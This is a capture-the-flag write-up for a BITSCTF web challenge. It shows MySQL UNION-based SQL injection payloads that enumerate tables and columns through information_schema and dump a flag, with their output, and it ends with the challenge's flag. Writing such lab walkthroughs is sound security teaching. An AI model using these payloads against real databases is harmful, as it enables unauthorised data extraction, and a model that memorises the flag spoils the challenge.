 # Batman vs Joker

## Description

Joker has left a message for you. Your job is to get to the message asap.

joking.bitsctf.bits-quark.org

## Solution

First of all, in this challenge I used two firefox useful complements: Firebug and Hackbar :) (I really like these complements).

I initiated the challenge analysis guessing the required ID at the index, and obviously, the value 1 was found.

![1](1.png)

With the firebug, I was able to get the full request and its parameters. Following the context, I had an idea that the challenge was related with SQL Injection, so, I confirmed the vulnerability forcing some error in the page with an incorrect parameter value. The result:

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' Limit 1' at line 1
```

The next step is try to get more information about the challenge database, the payload which has worked, had this structure: *1' <b>injection</b> #*.

An important information about SQL Injection is always try to know about the database version, for example, in this case I was able to use [information_schema](https://dev.mysql.com/doc/refman/5.7/en/information-schema.html) because we were exploiting a 5 > mysql version environment.

![2](2.png)

In the following commands, I used information_schema to get the tables from current database, the columns and dump the data.

Tables:
```php
id=1' union select 1,table_name from information_schema.tables where table_schema=database() #&submit1=submit 

First name:1
Surname: CIA_Official_Records

First name:1
Surname: Joker

```

Columns:
```php
id=1' union select 1,column_name from information_schema.columns where table_name='Joker' #&submit1=submit

First name:1
Surname: Flag

First name:1
Surname: HaHaHa
```

Dumping the data:
```php
id=1' union select 1,concat_ws(':',Flag,HaHaHa) from Joker #&submit1=submit

First name:1
Surname: BITSCTF{wh4t_d03snt_k1ll_y0u_s1mply_m4k3s_y0u_str4ng3r!}:Enjoying the game Batman!!!
```

Flag: BITSCTF{wh4t_d03snt_k1ll_y0u_s1mply_m4k3s_y0u_str4ng3r!}
